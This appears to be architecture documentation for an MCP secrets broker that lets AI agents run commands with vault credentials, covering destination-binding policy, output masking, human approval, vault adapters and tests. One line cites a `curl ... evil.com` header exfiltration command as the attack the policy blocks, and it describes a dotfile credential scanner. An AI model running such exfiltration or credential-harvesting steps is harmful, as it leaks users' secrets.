

# Architecture & internals

```
agent ──MCP──▶ secrets-broker-mcp ──▶ router ──▶ adapters (opvault | keepass | bitwarden)
                    │                                 │ master pw: env(tests) →
                    ├─ policy (destination binding)    └─ SB_SECRET_DIR file → OS keychain/libsecret
                    ├─ execrun: spawn child, secrets in env only
                    ├─ masking: stdout/stderr scrubbed before agent sees them
                    └─ audit JSONL (refs + decisions, never values)
```

## Life of an `exec_with_secret` call

Every check runs before any secret is resolved, and every "no" ends with
nothing spawned. The amber steps are the only ones that touch a value.



Policy, approval and jail refusals are written to the audit log (ref,
executable, reason), and so is every value that resolves, but never the value
itself. In isolated mode "not yet approved" is a round trip through a human:
see [approval.md](approval.md#as-built).

## What's implemented

- `internal/masking` — streaming output masker (full values + >=minPartial
  substrings, boundary-spanning safe).
- `internal/policy` — per-ref destination binding: exec allow-list with symlink
  resolution, deny-by-default. Kills `curl -H "Auth: {secret}" evil.com` exfil.
- `internal/execrun` — exec_with_secret core: policy check → approval → resolve → spawn
  (secrets in child env only) → masked stdout/stderr → JSONL audit (no values).
- `internal/router` — dispatches `sec://<adapter>/...` refs to registered adapters.
- `internal/unlock` — master password sources, first wins: `SB_*_PASSWORD` env
  (tests only) → a 0600 file in `SB_SECRET_DIR` (written by `sb set-password`;
  group/world-readable files are refused) → the OS store (macOS Keychain via
  `security find-generic-password`, Linux libsecret via `secret-tool`; service
  `secrets-broker`). Errors name the command that fixes them.
- `internal/adapters/opvault` — OPVault standalone vault (vendored MIT
  reader + getBool fix). PBKDF2 → master keys → item keys → detail decrypt.
- `internal/adapters/keepass` — KeePassXC/KeePass .kdbx (gokeepasslib v3,
  kdbx4 AES/ChaCha20 + Argon2), group paths, standard field fallbacks. The
  vault is shared with the KeePassXC app and sync tools, so the adapter
  re-reads it whenever the file changes (inode, size or mtime) and fails
  closed — never answers from the old copy — if the changed file no longer
  opens. A write decodes the file fresh under the write lock, applies the
  entry, verifies the encoding, and re-checks the file before the atomic
  rename; if another writer saved meanwhile, it starts over (three attempts),
  so it cannot overwrite what that writer added. The remaining window is the
  instant between that last check and the rename.
- `internal/approve` — human-approval gate. Single-uid mode prompts directly via
  `sb-approve`. Isolated mode mints one request per exec (covering every gated
  ref) and releases the secrets only after a Secure Enclave signature over that
  request's nonce is verified against a key registered at install — bound to
  the exact command, no reuse, no root. Needs a code-signed `sb-seauth`;
  otherwise it fails closed. See [approval.md](approval.md).
- `internal/importer` — discover credentials in dotfiles (~/.aws/credentials,
  ~/.netrc, .npmrc, docker, gh, stripe, and ~30 more) for migration into the
  vault; scanning is read-only and never prints values.
- `cmd/secrets-broker-mcp` — MCP server (official go-sdk v1.8); `-socket` serves
  isolated mode, `-connect` is the thin client the agent talks to.
- `cmd/sb` — policy CLI, plus `doctor`, `install`/`uninstall`, `set-password`,
  `import`, `profiles`, `browser`, `probe`.
- `cmd/sb-browser-proxy` — the native-messaging host Chrome launches for the
  KeePassXC-Browser extension; a dumb pipe to the broker's browser socket.
- `cmd/sb-cdpfill` — fills a login into one page of a CDP-driven Chrome, only
  while that page is on the origin pinned in argv[1]; the destination an
  agent's browser logins are bound to (`exec_with_secret` alone cannot type
  into a page). Computes TOTP codes from an `otp` seed itself.

## Tool profiles (file-based credentials)

`exec_with_secret` can inject plain env vars (`env_refs`), but many tools want
their credential as a *file* — `kubectl` reads `~/.kube/config`, gcloud reads a
JSON key, git reads `.netrc`. Profiles shape one vault item for a specific
tool: env vars with the right names, and/or a secret file written into a
per-exec 0700 temp dir that the tool is pointed at by env. The file exists only
for the child's lifetime and is deleted when it exits.

```bash
sb profiles                     # list built-in shapes (aws, gh, kube, gcloud)
sb allow sec://opvault/Kube/kubeconfig /usr/bin/kubectl -- get pods   # bind the field ref
# then, from the agent:
exec_with_secret(argv=["/usr/bin/kubectl","get","pods"],
                 profile="kube", profile_item="sec://opvault/Kube")
```

The tool receives a working `KUBECONFIG`; the agent never learns the value, the
same destination binding + masking + audit apply to every field the profile
resolves, and the temp file is gone once `kubectl` returns. Add or override
profiles with a JSON file at `SB_PROFILES_FILE`.

## Repository layout

- `cmd/secrets-broker-mcp` — MCP server (stdio or unix socket)
- `cmd/sb` — policy CLI, doctor, installer (shared + `install_darwin.go` /
  `install_linux.go`)
- `cmd/sb-approve` — single-uid Touch ID prompt (Swift)
- `cmd/sb-seauth` — Secure Enclave approval keygen/sign (Swift)
- `cmd/sb-browser-proxy`, `cmd/sb-cdpfill` — browser integration (above)
- `internal/adapters/{opvault,keepass,bitwarden}` — vault adapters
- `internal/{policy,execrun,masking,router,unlock,approve,importer,kpxc,gen}` — core
- `third_party/opvault` — vendored reader (MIT, miquella/opvault)
- `testdata/` — fixture generators (synthetic secrets only)

## Testing (no host Go toolchain needed)

Run as a **non-root** user: as root, `TestPathSafe` and
`TestFileSecretErrorIsNotSwallowed` fail falsely (root reads what they assert
is unreadable). `-buildvcs=false` is needed for `go build` over the mounted
checkout, because git refuses a checkout owned by a different uid.

```bash
docker run --rm --user 1000:1000 -e HOME=/tmp -e GOCACHE=/tmp/gocache \
  -e GOMODCACHE=/tmp/gomod -v "$PWD":/work -w /work golang:1.25 go test ./...
# darwin/arm64 binaries:
docker run --rm --user 1000:1000 -e HOME=/tmp -e GOCACHE=/tmp/gocache \
  -e GOMODCACHE=/tmp/gomod -e GOOS=darwin -e GOARCH=arm64 \
  -v "$PWD":/work -w /work golang:1.25 go build -buildvcs=false -o bin/ ./cmd/...
```

Some tests need the host and **skip** in a container: `sb-cdpfill`'s browser
test needs Chrome (found on `PATH`, at the macOS app path, or via
`SB_TEST_CHROME`), and the macOS jail, Keychain and Secure Enclave paths need
macOS. A skip is not a pass — cross-compile the test binary and run it
natively:

```bash
docker run … -e GOOS=darwin -e GOARCH=arm64 … go test -c -o bin/sb-cdpfill.test ./cmd/sb-cdpfill/
(cd cmd/sb-cdpfill && ../../bin/sb-cdpfill.test -test.v)
```

The keepass shared-vault tests (`internal/adapters/keepass/shared_test.go`)
stand in for KeePassXC by replacing the file the way its safe-save does; run
them with `-race` (needs `CGO_ENABLED=1`) after touching the adapter's locking.

Fixtures: `testdata/make_fixture.py` (synthetic encrypted .opvault),
`testdata/fixture.kdbx` (created via keepassxc-cli in Docker; password
`fixture-master-pw`, entry `GitHub`).
